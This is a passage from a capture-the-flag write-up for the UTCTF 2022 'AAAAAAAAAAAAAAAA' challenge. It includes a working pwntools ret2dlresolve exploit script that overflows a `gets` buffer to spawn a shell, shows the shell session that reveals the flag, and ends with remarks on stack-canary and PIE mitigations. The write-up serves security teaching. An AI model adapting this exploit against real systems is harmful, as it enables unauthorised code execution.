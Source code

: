 Baby talk ROP.  Google _ret2csu_ or read some of my other write ups for
details.

But, what if there is no `execve` in the GOT?

No worries, we'll just use `system`:

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA', checksec=False)

rop = ROP(binary)  
ret = rop.find_gadget(['ret'])[0]

dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)  
rop.gets(dl.data_addr)  
rop.ret2dlresolve(dl)

if args.REMOTE:  
   p = remote('pwn.utctf.live', 5000)  
else:  
   p = process(binary.path)

payload  = b''  
payload += 0x78 * b'A'  
payload += rop.chain()  
payload += b'\n'  
payload += dl.payload

p.sendline(payload)  
p.interactive()  
```

Baby walk.  Google _ret2dlresolve_ or read some of my other write ups for
details.

Any of the above will get you a shell:

```bash  
# ./exploit.py  
[+] Opening connection to pwn.utctf.live on port 5000: Done  
[*] Switching to interactive mode  
$ cat flag.txt  
utflag{you_expected_the_flag_to_be_screaming_but_it_was_me_dio98054042}  
```

### But, what if ...

Just because there's a vulnerability (e.g. `gets`), that does not mean it's
exploitable.  There are other ways to mitigate, e.g. recompile with a stack
canary and PIE (the defaults BTW), and this problem becomes a lot harder if
not impossible.  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/utctf2022/AAAAAAAAAAAAAAAA).